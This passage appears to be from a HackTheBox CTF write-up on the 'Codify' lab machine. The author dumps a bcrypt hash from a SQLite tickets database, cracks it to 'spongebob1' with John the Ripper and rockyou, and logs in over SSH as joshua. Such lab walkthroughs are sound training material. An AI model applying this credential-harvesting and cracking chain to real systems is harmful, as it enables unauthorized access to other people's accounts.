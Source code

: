 # User as joshua

## Database creds

When looking at the other directories in /var/www I came across Contact. Within it there is a database file in addition to some other shell of a support page. In that database file is a bcrypt password hash for joshua.

```bash
svc@codify:/var/www/contact$ cat tickets.db 
�T5��T�format 3@  .WJ
       otableticketsticketsCREATE TABLE tickets (id INTEGER PRIMARY KEY AUTOINCREMENT, name TEXT, topic TEXT, description TEXT, status TEXT)P++Ytablesqlite_sequencesqlite_sequenceCREATE TABLE sqlite_sequence(name,seq)��	tableusersusersCREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT, 
        username TEXT UNIQUE, 
        password TEXT
��G�joshua$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
��
����ua  users
             ickets
r]r�h%%�Joe WilliamsLocal setup?I use this site lot of the time. Is it possible to set this up locally? Like instead of coming to this site, can I download this and set it up in my own computer? A feature like that would be nice.open� ;�wTom HanksNeed networking modulesI think it would be better if you can implement a way to handle network-based stuff. Would help me out a lot. Thanks!open
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Codify]
└──╼ $john joshpass --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 4096 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spongebob1       (?)
1g 0:00:00:28 DONE (2023-11-11 11:34) 0.03547g/s 48.52p/s 48.52c/s 48.52C/s crazy1..angel123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Codify]
└──╼ $ssh joshua@10.10.11.239
joshua@10.10.11.239's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Nov 11 05:35:35 PM UTC 2023

  System load:                      0.0224609375
  Usage of /:                       69.1% of 6.50GB
  Memory usage:                     26%
  Swap usage:                       0%
  Processes:                        237
  Users logged in:                  1
  IPv4 address for br-030a38808dbf: 172.18.0.1
  IPv4 address for br-5ab86a4e40d0: 172.19.0.1
  IPv4 address for docker0:         172.17.0.1
  IPv4 address for eth0:            10.10.11.239
  IPv6 address for eth0:            dead:beef::250:56ff:feb9:8886
```